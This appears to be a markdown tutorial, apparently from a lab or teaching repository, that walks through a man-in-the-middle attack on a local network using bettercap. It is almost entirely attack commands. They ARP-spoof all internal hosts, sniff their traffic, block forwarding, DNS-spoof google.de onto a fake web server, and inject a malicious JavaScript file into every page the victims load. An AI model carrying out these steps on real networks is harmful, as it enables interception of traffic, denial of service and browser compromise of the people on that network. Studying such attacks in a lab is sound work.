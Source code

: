 Some remarks about the notation: ```>``` denotes a command being entered inside buttercup, whereas ```#``` denotes a command being entered in a shell.

- On a machine in your network (i.e. the one you are attacking): watch your local arp cache for changes: ```# watch -n 1 "arp -a"```
- Open bettercap: ```# sudo bettercap```
- See the nothing is running: ```> help```
- Turn on netoworking reconnaissance: ```> net.recon on```
- See hosts on the network: ```> net.show```
- Get information about the arp spoof module: ```> help arp.spoof```
- Get all variables related to the arp spoof module: ```> get arp.spoof.*```
- We want to spoof all internal connections: ```> set arp.spoof.internal true```
- Start arp spoofing: ```> arp.spoof on```
- On machine which is attacked, watch arp table being filled
- Open Wireshark and show network traffic: ```# sudo wireshark```
  - See ARP traffic by filtering for it inside wireshark (```arp```)
  - See non ARP traffic (```not arp```)
  - See HTTP traffic (```http```)
- See traffic increase: ```# nload -t 1000```
- Now we know: all traffic goes through us! We win and can do whatever we want now
- Now let's sniff the traffic: ```> net.sniff on```
- Stop it again: ```> net.sniff off```
- Stop arp spoofing for now: ```> arp.spoof off```
- ```> arp.ban on``` when you are really pissed, no traffic gets forwarded
- Turn forwarding back on again: ```> arp.ban off``` and ```> arp.spoof on```
- Let's spoof domains: ```> set dns.spoof.domains google.de``` and ```> dns.spoof on```
- On the a machine in your network: ```# watch -n 1 "host google.de"```
- Sometimes this doesn't work an the real gateway is faster: ```> arp.spoof off``` and ```> arp.ban on```
- Start a bogous HTTP webserver: ```> set http.server.path ./google``` and ```> set https.server.path ./google``` and ```> http.server on``` and ```> https.server on```
- Stop everything: ```> arp.ban off``` and ```> dns.spoof off``` and ```> http.server off``` and ```> https.server off```
- Now inject a malicious JavaScript file into every page: ```> arp.spoof on``` and ```> set http.proxy.injectjs inject.js``` and ```> set https.proxy.injectjs inject.js``` and ```> http.proxy on``` and ```> https.proxy on```
- Navigate to spiegel.de in a browser on a machine on your network
